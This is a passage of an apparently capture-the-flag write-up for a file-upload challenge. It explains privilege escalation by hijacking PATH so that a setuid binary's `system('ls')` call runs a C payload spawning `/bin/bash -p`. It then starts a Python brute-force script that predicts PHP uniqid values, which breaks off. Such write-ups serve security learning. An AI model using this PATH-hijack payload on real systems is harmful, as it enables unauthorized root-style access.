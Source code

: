 ![](https://i.imgur.com/ZMP1OST.png)

### Gaining Privilege Escalation

Now we have a shell as the `ctf` user, but we need to escalate privileges to the `admin` user. We need to peek at the decompiled version of the `list_uploads` binary that is given in the source code.

Before we go even further, we need to know that the binary `/list_uploads` in the root directory has setuid permission as the `admin` user. So, if we can somehow exploit this, we can get the permission as the `admin` user.

We can decompile `list_uploads` binary using `ida64` to understand how it works. In this case, we found that the binary is using the `system()` function to call the `ls` function, as shown in the image below:

![](https://i.imgur.com/xffeaWU.png)

By reading this article [here](https://cybergibbons.com/security-2/nebula-walkthrough/nebula-exploit-exercises-walkthrough-level01/), we learned that by tampering with the `PATH` in the environment variable, we can change the path of the binary it will take when the `system()` function is called. Therefore, if we change the `PATH` and put a specially compiled `ls` binary, we can gain code execution as the admin user.

To achieve this, we need to write a payload in C language:

```c
int main(int argc, char **argv) {
    system("/bin/bash -p");
}
```

After writing the payload, we send it to the challenge server and compile it in the `/tmp` folder. As shown in the image below, we successfully gain access as an admin user and read the flag.

![](https://i.imgur.com/CSBf8kM.png)


### Script For Bruteforce Technique

```python
import requests
from subprocess import check_output
import time
import threading

# URL = "http://localhost"
URL = "https://filestore.web.actf.co/"


def uniqid(date):
    cmd = f"""
$dateStr = '{date}';
$dateTime = DateTime::createFromFormat('D, d M Y H:i:s T', $dateStr);
$microtime = $dateTime->format('U.u');
echo sprintf("%8x%05x\n",floor($microtime),($microtime-floor($microtime))*1000000);
    """
    return check_output(['php', '-r', cmd]).decode().strip()


def microtime():
    cmd = """
    $microtime = microtime(true);
    echo sprintf("%8x%05x\n",floor($microtime),($microtime-floor($microtime))*1000000);
    """
    return check_output(['php', '-r', cmd]).decode().strip()


```